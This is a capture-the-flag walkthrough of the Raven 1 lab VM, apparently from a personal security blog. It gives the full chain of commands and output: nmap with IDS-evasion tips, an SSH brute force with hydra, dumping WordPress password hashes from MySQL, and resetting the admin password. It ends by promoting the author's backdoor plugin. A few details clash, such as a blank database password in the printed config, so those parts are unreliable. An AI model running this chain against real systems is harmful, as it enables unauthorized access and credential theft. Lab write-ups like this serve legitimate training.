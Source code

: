 ```yaml
---
title: Raven 1 Walkthrough
author: alex
date: Tue 23 Jan 11:15:48 CEST 2024
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2024-01-23-raven-1-walkthrough/
image:
  path: VirtualBox_Kali_23_01_2024_12_30_26.png
  alt: Raven Security
---
```


Today I'm hacking into **Raven 1**. This VM is a **WordPress** website that we will be taking over through **MySQL**.

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining admin access

## Tools Used

- Netdiscover
- Nmap
- Dirb

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
 Currently scanning: 192.168.13.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
 2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.1     08:00:27:b9:a6:34      1      60  PCS Systemtechnik GmbH                                          
 192.168.1.57    08:00:27:f0:a8:9f      1      60  PCS Systemtechnik GmbH       
```
## Enumeration 

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.57
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-oscp-certification-guide/#port-scanning)**
{: .prompt-warning }

And the output...

```
PORT      STATE SERVICE VERSION
 
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)

80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Raven Security
|_http-server-header: Apache/2.4.10 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          40318/udp6  status
|   100024  1          47114/tcp   status
|   100024  1          52052/udp   status
|_  100024  1          58944/tcp6  status

47114/tcp open  status  1 (RPC #100024)

MAC Address: 08:00:27:F0:A8:9F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 199.638 days (since Thu Jul  6 21:57:36 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see some interesting ports open here. 

- **Port 22:** Nothing interesting so far when trying to connect via SSH.

- **Port 80:** Before we open the browser, we should modify the file */etc/hosts* to add a line to make the IP point to **raven.local** like this:



Let's open the browser and search for **raven.local**. We find a web page, let's keep going with the recon before trying anything here.

Let's enumerate the directories of the website with `dirb`: `sudo dirb http://192.168.1.57/`. And we find a couple of interesting directories: `/wordpress/` and `/wordpress/wp-admin/`. If we look around the blog, we can see a user publishing under the name **michael**.

Let's try to brute force SSH: `sudo hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.57 -s22 -I ssh -v`

And we get a password: `michael:michael`.

Once inside, let's download **Linux Exploit Suggester** from our own Apache server. Now, if we run it, we can see some hardcoded credentials:

```bash
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rw-rw-rw- 1 www-data www-data 3134 Aug 13  2018 /var/www/html/wordpress/wp-config.php                              
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', '');
define('DB_HOST', 'localhost');
```

So, let's run MySQL to try to get some creds! `mysql -u root -p` and when prompted for a password: `R@v3nSecurity`. Once inside the console, let's see the databases:

```bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress          |
+--------------------+
4 rows in set (0.00 sec)
```

OK, let's open `wordpress` databse:

```bash
mysql> use wordpress;
Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)
```

And now, let's dump all the info in the table `wp_users`:

```bash
mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
|  1 | michael    | $P$BCyo7B9rkxgGPHpOuSInX8KE1izjh6. | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     |           0 | michael        |
|  2 | steven     | 81dc9bdb52d04dc20036dbd8313ed055   | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     |           0 | Steven Seagull |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
2 rows in set (0.00 sec)
```

Here, I have already changed `steven`'s password to 1234 hashed with MD5. So, let's change `michael`'s password as well: `update wp_users set user_pass=MD5('1234') where ID=1;` And, if we dump the table aganin:

```bash
mysql> update wp_users set user_pass=MD5('1234') where ID=1;
Query OK, 1 row affected (0.03 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from wp_users;
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
| ID | user_login | user_pass                        | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
|  1 | michael    | 81dc9bdb52d04dc20036dbd8313ed055 | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     |           0 | michael        |
|  2 | steven     | 81dc9bdb52d04dc20036dbd8313ed055 | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     |           0 | Steven Seagull |
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
2 rows in set (0.00 sec)
```

![WP Login](VirtualBox_Kali_23_01_2024_11_37_38.png)

Let's go back to `/wordpress/wp-login` and try to login using `michael:1234`. And voilà! Now we have taken control over the website with admin privileges. 

![WP Admin](VirtualBox_Kali_23_01_2024_11_38_00.png)

The CTF ends here but, why don't you play around uploading my backdoor plugin? **[Here](https://amtzespinosa.github.io/posts/wordpress-backdoor-plugin/)** yo can find it!
